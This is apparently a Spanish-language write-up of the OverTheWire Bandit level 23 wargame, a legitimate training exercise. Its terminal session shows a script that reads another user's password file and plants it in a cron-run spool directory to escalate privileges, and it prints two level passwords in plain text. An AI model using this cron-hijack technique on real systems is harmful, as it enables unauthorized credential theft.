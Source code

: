 # Retos Bandit

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
***Usuario: bandit23
Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solucion
```bash

  Enjoy your stay!
  NOTA: Antes habia creado la carpeta Jager y como aun no se eliminaba el archivo temporar mas tarde regrese y volvi a abrir la misma carpeta.

bandit23@bandit:~$ cd /tmp/Jager
bandit23@bandit:/tmp/Jager$ ls
bandit23@bandit:/tmp/Jager$ ls -la
total 120
drwxrwxr-x  2 bandit23 bandit23   4096 Mar  1 02:05 .
drwxrwx-wt 86 root     root     114688 Mar  1 03:05 ..
bandit23@bandit:/tmp/Jager$ cat bandit23
cat: bandit23: No such file or directory
bandit23@bandit:/tmp/Jager$ cd bandit23
-bash: cd: bandit23: No such file or directory
bandit23@bandit:/tmp/Jager$ echo "cat /etc/bandit_pass/bandit24  >> /tmp/Jager/PassPlease" > MeinScript.sh
bandit23@bandit:/tmp/Jager$ chmod 777 MeinScript.sh 
bandit23@bandit:/tmp/Jager$ cat MeinScript.sh 
cat /etc/bandit_pass/bandit24  >> /tmp/Jager/PassPlease
bandit23@bandit:/tmp/Jager$ cat /etc/bandit_pass/bandit24 >> /tmp/Jager/PassPlease
cat: /etc/bandit_pass/bandit24: Permission denied
bandit23@bandit:/tmp/Jager$ touch PassPlease 
bandit23@bandit:/tmp/Jager$ chmod 666 PassPlease 
bandit23@bandit:/tmp/Jager$ cp MeinScript.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/MeinScript.sh': Operation not permitted
bandit23@bandit:/tmp/Jager$ cat MeinScript.sh
cat /etc/bandit_pass/bandit24  >> /tmp/Jager/PassPlease
bandit23@bandit:/tmp/Jager$ chmod +x MeinScript.sh 
bandit23@bandit:/tmp/Jager$ touch PassPlease 
bandit23@bandit:/tmp/Jager$ chmod 666 PassPlease 
bandit23@bandit:/tmp/Jager$ ls -la
total 124
drwxrwxr-x  2 bandit23 bandit23   4096 Mar  1 03:17 .
drwxrwx-wt 99 root     root     114688 Mar  1 03:26 ..
-rwxrwxrwx  1 bandit23 bandit23     56 Mar  1 03:15 MeinScript.sh
-rw-rw-rw-  1 bandit23 bandit23      0 Mar  1 03:25 PassPlease
bandit23@bandit:/tmp/Jager$ cp MeinScript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/Jager$ ls -la
total 124
drwxrwxr-x  2 bandit23 bandit23   4096 Mar  1 03:17 .
drwxrwx-wt 99 root     root     114688 Mar  1 03:26 ..
-rwxrwxrwx  1 bandit23 bandit23     56 Mar  1 03:15 MeinScript.sh
-rw-rw-rw-  1 bandit23 bandit23      0 Mar  1 03:25 PassPlease
bandit23@bandit:/tmp/Jager$ cat PassPlease 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/Jager$ 

```

## Notas adicionales
## Referencias

